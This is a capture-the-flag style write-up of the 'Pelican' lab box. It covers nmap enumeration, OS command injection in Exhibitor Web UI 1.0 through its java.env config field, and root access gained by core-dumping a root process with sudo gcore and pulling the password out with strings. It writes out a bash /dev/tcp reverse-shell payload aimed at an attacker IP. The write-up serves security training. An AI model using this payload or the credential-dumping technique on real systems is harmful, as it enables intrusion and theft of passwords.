# Pelican

## Service Enumeration

`nmapAutomator.sh -H 192.168.237.98 -t full`

`nmapAutomator.sh -H 192.168.237.98 -t vulns`



## Exploitation

Going to port 8081 redirects us to this page at port 8080.



This is an Exhibitor Web UI. We can see from the top right corner of the page that the version is 1.0, which is vulnerable to an OS command injection vulnerability: [https://www.exploit-db.com/exploits/48654](https://www.exploit-db.com/exploits/48654).

In the Config tab, the `java.env script` field can be used to execute arbitrary commands. For instance, we can trigger a reverse shell with `$(bash -i >& /dev/tcp/192.168.49.237/4242 0>&1)`



Catching the reverse shell:



Proof:



## Privilege Escalation

From the LinPEAS output, we find that `root` runs a binary `/usr/bin/password-store`. We don't have permissions to run this, but it looks interesting.



Now, we find that we can run `gcore` as root with no password.



Reference: [https://wiki.sentnl.io/security/hacking-demos/getting-passwords-of-logged-in-users](https://wiki.sentnl.io/security/hacking-demos/getting-passwords-of-logged-in-users)

`gcore` creates a core dump of a running process. A core file or core dump is a file that records the memory image of a running process and its process status.

Using `ps -ef | grep password-store`, we find that the process ID is 493. Then, we can run `gcore` as `sudo` to create a core dump of the process.



In the strings output \(`strings core.493`\), we find something interesting.



Using this root password, we successfully authenticate as root.





